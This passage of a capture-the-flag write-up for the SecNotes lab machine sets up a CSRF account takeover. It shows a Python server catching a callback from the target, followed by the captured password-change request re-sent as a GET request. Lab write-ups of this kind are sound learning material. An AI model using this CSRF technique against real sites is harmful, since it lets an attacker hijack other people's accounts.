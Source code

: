 I tried few of the credentials but nothing works. So I signed up with the user `asdf` and password `asdf123`.
![](SecNotes_Web1.png)
Identify one user `Tyler`.
### CSRF_Password_Reset
So the one way to to change tyler's password is to click on "Contact Us" and send password reset link. There's something in the backend that access this link. Let's just verify this once.
![](SecNotes_Web2.png)
Sending test CSRF payload and started a python server on our end.
```
┌──(ringbuffer㉿kali)-[~/Downloads/SecNotes.htb]
└─$ sudo python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.97 - - [09/Dec/2024 23:42:00] "GET /csrf_poc.html HTTP/1.1" 200 -
```
We got the hit from the Box (10.10.10.97)

Let's Capture the `Change Password` HTTP Post request
```
POST /change_pass.php HTTP/1.1
Host: secnotes.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 55
Origin: http://secnotes.htb
Connection: keep-alive
Referer: http://secnotes.htb/change_pass.php
Cookie: PHPSESSID=34ldt1oc1uaso1s4m0o7v513gu
Upgrade-Insecure-Requests: 1

password=asdf321&confirm_password=asdf321&submit=submit
```
Change the `HTTP Request Method` to `GET` and send it to verify that the `GET` method works.
```
GET /change_pass.php?password=asdf321&confirm_password=asdf321&submit=submit HTTP/1.1
Host: secnotes.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
```